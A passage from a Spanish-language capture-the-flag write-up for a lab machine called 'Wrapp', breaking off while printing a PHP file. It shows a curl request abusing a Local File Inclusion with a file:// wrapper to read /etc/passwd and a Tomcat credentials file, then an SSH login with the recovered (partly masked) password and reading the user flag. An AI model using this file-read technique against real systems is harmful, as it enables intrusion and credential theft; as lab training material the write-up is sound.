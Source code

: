 Sigo provando cosas y buscando informacion y formas de poder leer archivos en la maquina victima a traves de Local File Inclusion **LFI**
* [File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
* [Use file://](https://www.php.net/manual/en/wrappers.file.php)

Finalmente encuentro la forma y pudeo leer el **passwd**.
![passwd]({{'/assets/img/Wrapp/passwd.png' | relative_url}})
En la pagina del puerto 65000 hay una ruta con un archivo de usuario de tomcat, el cual me descargo con el comando **curl**
```bash
❯ curl -s "http://192.168.2.23/advanced-search/path.php?path=file:///etc/tomcat9/tomcat-users.xml"
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="edward" password="3d**************rD" roles="manager-gui"/>
</tomcat-users>
```
Obtengo unas credenciales y un nombre de usuario.

Algo que provare sera conectarme por **ssh** y comprobar si el usuario:contraseña son validos
```bash
❯ ssh edward@192.168.2.23
The authenticity of host '192.168.2.23 (192.168.2.23)' can't be established.
ED25519 key fingerprint is SHA256:hdzcJbUQtwBTuPptVB40sb4fheVL1kIy30wCTBBU3a4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.2.23' (ED25519) to the list of known hosts.
edward@192.168.2.23's password: 
Linux wrapp 4.19.0-23-amd64 #1 SMP Debian 4.19.269-1 (2022-12-20) x86_64
tput: unknown terminal "xterm-kitty"
edward@wrapp:~$ export TERM=xterm
edward@wrapp:~$ whoami
edward
edward@wrapp:~$ ls
user.txt
edward@wrapp:~$ cat user.txt 
c83**************************cdf
```
Estoy dentro, y ya logro visualizar la flag de bajos privilegios

Como el usuario edward puedo hacer poca cosa, se me ocurre hechar un vistazo al direcctorio que aloja la web
```bash
edward@wrapp:~$ cd /var/www/html/advanced-search/
edward@wrapp:/var/www/html/advanced-search$ ls -la
total 16
drwxrwxrwx 2 root root 4096 abr 21  2023 .
drwxrwxrwx 3 root root 4096 abr 21  2023 ..
-rwxrwxrwx 1 root root  596 jul 27  2021 index.php
-rwxrwxrwx 1 root root  249 jul 27  2021 path.php
edward@wrapp:/var/www/html/advanced-search$ cat index.php path.php
```
Veo 2 archivos y algo curioso, tengo capacidad de escritura en el direcctorio
```php
<html>
    <head>
         <style> div.main { margin-left:auto; margin-right:auto; width:50%; } body { background-color:  #f5f5f0; }</style>
	<title>
        Private Search
        </title>
    </head>
    <body>
    <div class="main">
```